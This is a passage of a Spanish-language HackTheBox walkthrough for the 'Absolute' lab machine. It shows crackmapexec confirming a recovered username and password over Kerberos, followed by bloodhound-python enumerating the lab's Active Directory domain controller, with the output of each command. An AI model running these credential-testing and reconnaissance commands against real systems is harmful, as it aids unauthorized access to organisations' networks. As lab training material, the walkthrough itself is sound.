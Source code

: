 <img src="/assets/hackthebox/img/machines/insane/absolute/creds.png">
</p>

- Nos dice que no son correctas.

```bash
➜  content crackmapexec smb 10.10.11.181 -u 'mlovegod' -p 'AbsoluteLDAP2022!' -k
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\mlovegod: KDC_ERR_C_PRINCIPAL_UNKNOWN
```

- Si les ponemos un punto funciona.

```bash
➜  content crackmapexec smb absolute.htb -u 'm.lovegod' -p 'AbsoluteLDAP2022!' -k
SMB         absolute.htb    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         absolute.htb    445    DC               [+] absolute.htb\m.lovegod:AbsoluteLDAP2022!
```

- Para enumerar el `DC` vamos a usar `bloodhound`.

```bash
➜  content bloodhound-python -u m.lovegod -p AbsoluteLDAP2022! -k -c All -d absolute.htb -dc dc.absolute.htb -ns 10.10.11.181 --zip
INFO: Found AD domain: absolute.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 18 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.absolute.htb
INFO: Done in 00M 23S
INFO: Compressing output into 20240618211316_bloodhound.zip
```
